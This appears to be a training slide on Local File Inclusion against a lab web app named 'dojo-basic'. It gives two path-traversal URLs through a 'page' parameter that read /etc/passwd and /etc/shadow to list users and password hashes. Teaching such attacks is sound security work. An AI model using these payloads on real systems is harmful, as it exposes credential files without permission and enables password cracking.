

# Local File Inclusion LFI
The ability to include local files to use in attacks or to gather system information
List users and password hashes in Linux
http://dojo-basic/index.php?page=../../../../../../../etc/passwd
Get user password hashes
http://dojo-basic/index.php?page=../../../../../../../etc/shadow